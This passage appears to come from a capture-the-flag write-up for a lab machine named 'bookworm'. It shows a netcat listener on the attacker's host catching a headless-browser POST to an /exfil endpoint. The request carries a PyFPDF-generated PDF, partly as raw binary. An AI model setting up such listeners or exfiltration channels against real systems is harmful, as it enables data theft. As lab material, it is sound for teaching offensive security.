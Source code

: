 
This one returns a PDF:

    
    
    oxdf@hacky$ nc -lnvp 80
    Listening on 0.0.0.0 80
    Connection received on 10.10.11.215 33964
    POST /exfil HTTP/1.1
    Host: 10.10.14.6
    Connection: keep-alive
    Content-Length: 1006
    User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/119.0.6045.199 Safari/537.36
    Accept: */*
    Origin: http://bookworm.htb
    Referer: http://bookworm.htb/
    Accept-Encoding: gzip, deflate
    
    %PDF-1.3
    3 0 obj
    <</Type /Page
    /Parent 1 0 R
    /Resources 2 0 R
    /Contents 4 0 R>>
    endobj
    4 0 obj
    <</Filter /FlateDecode /Length 115>>
    stream
    x=̱
    @E~uj8-zZ       D6_^8505O
                             @*b8ۚj!*,aێ73ڴx~2nSN^{N;gE#q=ӉQ}Q
    endstream
    endobj
    1 0 obj
    <</Type /Pages
    /Kids [3 0 R ]
    /Count 1
    /MediaBox [0 0 595.28 841.89]
    >>
    endobj
    5 0 obj
    <</Type /Font
    /BaseFont /Helvetica
    /Subtype /Type1
    /Encoding /WinAnsiEncoding
    >>
    endobj
    2 0 obj
    <<
    /ProcSet [/PDF /Text /ImageB /ImageC /ImageI]
    /Font <<
    /F1 5 0 R
    >>
    /XObject <<
    >>
    >>
    endobj
    6 0 obj
    <<
    /Producer (PyFPDF 1.7.2 http://pyfpdf.googlecode.com/)
    /CreationDate (D:20230129212444)
    >>
    endobj
    7 0 obj
    <<